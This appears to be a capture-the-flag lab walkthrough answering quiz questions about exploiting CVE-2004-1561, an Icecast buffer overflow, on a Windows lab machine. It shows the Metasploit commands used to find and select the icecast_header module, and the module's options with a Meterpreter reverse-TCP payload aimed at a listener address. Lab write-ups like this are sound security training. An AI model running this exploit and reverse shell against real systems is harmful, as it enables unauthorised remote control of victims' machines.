 ### What does Nmap identify as the hostname of the machine? (All caps for the answer)

- <code>Host: DARK-PC; OS: Windows; CPE: cpe:/o:microsoft:windows</code>
> Hostname is **DARK-PC**

## Gain Access

The room points us to the following link for details regarding the exploit we will be using: [CVE-2004-1561](https://www.cvedetails.com/cve/CVE-2004-1561/)

#### CVE-2004-1561 - Buffer overflow in Icecast 2.0.1 and earlier allows remote attackers to execute arbitrary code via an HTTP request with a large number of headers.

### What is the Impact Score for this vulnerability?

> According to [*cvedetails.com*](https://cvedetails.com), the impact score is **6.4**

### What is the CVE number for this vulnerability? This will be in the format: CVE-0000-0000

> The CVE number for this vulnerability is **CVE-2004-1561**

### After Metasploit has started, let's search for our target exploit using the command 'search icecast'. What is the full path (starting with exploit) for the exploitation module?

- We can start the Metasploit console using <code>msfconsole</code>
- Here are the returned results when we search use <code>search icecast</code> after starting *Metasploit*:

<code>0  exploit/windows/http/icecast_header  2004-09-28       great  No     Icecast Header Overwrite</code>

> The full path to the exploit is **exploit/windows/http/icecast_header**

### Following selecting our module, we now have to check what options we have to set. Run the command `show options`. What is the only required setting which currently is blank?

- <code>use 0</code> to select the icecast exploit from search results
- Use <code>show options</code> to show Metasploit module options

The following options get returned for the Icecast module:

```
Module options (exploit/windows/http/icecast_header):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT   8000             yes       The target port (TCP)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     172.29.246.187   yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


```